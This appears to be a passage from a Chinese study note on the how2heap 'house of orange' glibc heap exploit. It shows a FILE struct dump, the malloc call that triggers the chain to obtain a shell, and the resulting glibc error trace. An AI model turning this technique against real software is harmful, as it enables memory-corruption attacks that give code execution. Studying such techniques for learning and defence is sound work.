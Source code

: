 ```
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0, 
    _mode = 0, 
    _unused2 = '\000' <repeats 19 times>
  }, 
  vtable = 0x602460
}
```

``` c
    /* Finally, trigger the whole chain by calling malloc */
    // 最后随便申请一个内存以触发整个调用链，这也会获得shell。
    malloc(10);

   /*
     The libc's error message will be printed to the screen
     But you'll get a shell anyways.
   */
```

报错信息：

```
*** Error in `/mnt/hgfs/VMShare/how2heap/glibc_2.25/house_of_orange': malloc(): memory corruption: 0x00007ffff7dd2520 ***
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7ffff7a847e5]
/lib/x86_64-linux-gnu/libc.so.6(+0x8213e)[0x7ffff7a8f13e]
/lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7ffff7a91184]
/mnt/hgfs/VMShare/how2heap/glibc_2.25/house_of_orange[0x400788]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7ffff7a2d830]
/mnt/hgfs/VMShare/how2heap/glibc_2.25/house_of_orange[0x400589]
======= Memory map: ========
00400000-00401000 r-xp 00000000 00:31 767                                /mnt/hgfs/VMShare/how2heap/glibc_2.25/house_of_orange
00600000-00601000 r--p 00000000 00:31 767                                /mnt/hgfs/VMShare/how2heap/glibc_2.25/house_of_orange
00601000-00602000 rw-p 00001000 00:31 767                                /mnt/hgfs/VMShare/how2heap/glibc_2.25/house_of_orange
00602000-00645000 rw-p 00000000 00:00 0                                  [heap]
7ffff0000000-7ffff0021000 rw-p 00000000 00:00 0 
7ffff0021000-7ffff4000000 ---p 00000000 00:00 0 
7ffff77f7000-7ffff780d000 r-xp 00000000 08:01 1837020                    /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff780d000-7ffff7a0c000 ---p 00016000 08:01 1837020                    /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff7a0c000-7ffff7a0d000 rw-p 00015000 08:01 1837020                    /lib/x86_64-linux-gnu/libgcc_s.so.1
7ffff7a0d000-7ffff7bcd000 r-xp 00000000 08:01 1832518                    /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7bcd000-7ffff7dcd000 ---p 001c0000 08:01 1832518                    /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dcd000-7ffff7dd1000 r--p 001c0000 08:01 1832518                    /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dd1000-7ffff7dd3000 rw-p 001c4000 08:01 1832518                    /lib/x86_64-linux-gnu/libc-2.23.so
7ffff7dd3000-7ffff7dd7000 rw-p 00000000 00:00 0 
7ffff7dd7000-7ffff7dfd000 r-xp 00000000 08:01 1832172                    /lib/x86_64-linux-gnu/ld-2.23.so
7ffff7fdb000-7ffff7fde000 rw-p 00000000 00:00 0 
7ffff7ff6000-7ffff7ff7000 rw-p 00000000 00:00 0 
7ffff7ff7000-7ffff7ffa000 r--p 00000000 00:00 0                          [vvar]
7ffff7ffa000-7ffff7ffc000 r-xp 00000000 00:00 0                          [vdso]
```